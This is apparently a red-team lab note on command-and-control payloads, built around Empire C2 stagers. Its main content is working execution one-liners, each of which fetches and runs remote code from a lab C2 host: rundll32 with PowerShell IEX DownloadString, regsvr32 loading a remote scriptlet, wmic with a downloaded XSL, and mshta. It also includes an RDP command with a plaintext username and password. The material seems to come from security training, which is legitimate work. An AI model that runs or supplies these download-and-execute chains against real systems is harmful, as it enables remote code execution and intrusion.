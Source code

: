 #### Tags: [[12 - Command and Control (TA0011)]]

## Objectives

    Create different payloads for familiarity
    Test payloads from the range
    Use additional tools to enhance payloads
## Overview
This lab will focus on creating multiple payloads and then testing them in the student range. We will use various methods to gain familiarity with different techniques.

### Launch [[Empire C2#Create an Empire listener]] 

## [[PowerShell Stager with rundll32.exe]]

#### *Payload:* Create interactive HTTP Powershell Stager

![[Pasted image 20240317180009.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with rundll32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.254.252.3:8000/setup.ps1');")
```
###### Or we can copy the payload for execution via webshell 
![[Pasted image 20240324025733.png]]

----
## [[SCT stager and execute with regsvr32.exe]]

#### *Payload:* Create a SCT stager
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp`

![[Pasted image 20240317175954.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with regsvr32.exe
regsvr32 /s /n /u /i:http://10.254.252.3:8000/config.sct scrobj.dll
```

---
## [[WMIC stager and execute with wmic]]

#### *Payload:* Create WMIC Stager

![[Pasted image 20240317175936.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with wmic
wget http://10.254.252.2:8000/update.xsl -o update.xsl
wmic os get /format:"update.xsl"
```

---

## [[HTA stager and execute with mshta.exe]]

#### *Payload:* Create HTA Stager

![[Pasted image 20240317175917.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with mshta.exe
mshta.exe http://10.254.252.3:8000/app.hta
```

----
### Executing Techniques

Link to Heading
and create 2 - Payloads & Execution Tech 

#### Notes | Bonus
- Create Links
- Bonus RT Sections 
	- Learn to deploy payload without RDP 
	- Learn to leverage Cobalt strike for payload creation

## Conclusion

